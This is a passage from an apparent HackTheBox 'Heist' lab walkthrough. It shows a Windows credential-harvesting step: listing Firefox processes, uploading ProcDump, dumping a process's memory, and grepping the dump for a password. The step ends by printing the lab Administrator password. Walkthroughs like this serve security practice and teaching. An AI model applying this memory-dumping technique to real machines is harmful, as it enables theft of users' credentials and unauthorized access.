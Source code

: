 ### 6.1 Process Enumeration

```bash
ps
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/chase_ps.png)

Suspiciously high number of Firefox processes.

```bash
ps | findstr firefox
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/chase_ps_firefox.png)

### 6.2 Dumping Firefox Process

Upload Sysinternals ProcDump:

```bash
upload /home/kali/Documents/Machines/Heist/content/procdump64.exe
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/chase_upload_procdump64.png)

Dump Firefox process:

```bash
.\procdump64.exe -accepteula -ma 6356
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/chase_execute_procdump64.png)

Download the dump:

```bash
C:\Users\Chase\Desktop> download firefox.exe_250823_183228.dmp firefox.dmp
```

### 6.3 Extracting Credentials

Search `password` on dump file:

```bash
strings firefox.dmp | grep password
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/dump_password.png)

Recovered credentials:

- **Administrator** → `4dD!5}x/re8]FBuZ`

---
## 7. Administrator Access
